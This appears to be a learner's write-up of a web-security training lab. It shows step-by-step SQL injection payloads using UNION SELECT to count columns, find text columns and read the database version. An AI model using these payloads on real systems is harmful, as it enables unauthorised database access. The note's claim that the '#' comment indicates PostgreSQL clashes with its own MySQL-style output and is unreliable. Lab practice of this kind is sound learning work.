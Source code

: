 This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

---

Analysis:

- I have to use a `#` to comment out the request indicating it's postgreSQL

```php
'+UNION+SELECT+NULL,+NULL#
```

- I find that there is two columns. 
- With the following command i find that both columns contain text.

```php
'+UNION+SELECT+'aa',+'aa'# 
```

- Looking at the chat sheet i'm provided the following syntax to check the database version.

PostgreSQL:

```php
SELECT version()
```

- I use this to finish the lab.

```php
'+UNION+SELECT+'aa',+version()#
```

Output:

`8.0.39-0ubuntu0.20.04.1`

I can't search for that if i write a script because it already says it on the page in the description of what to do, so i'll have to use something else like the status code `200`.

![[Pasted image 20240901091620.png]]

Other than a python script that completes the lab.

---

**Completed:** _09:03 2024-09-01_


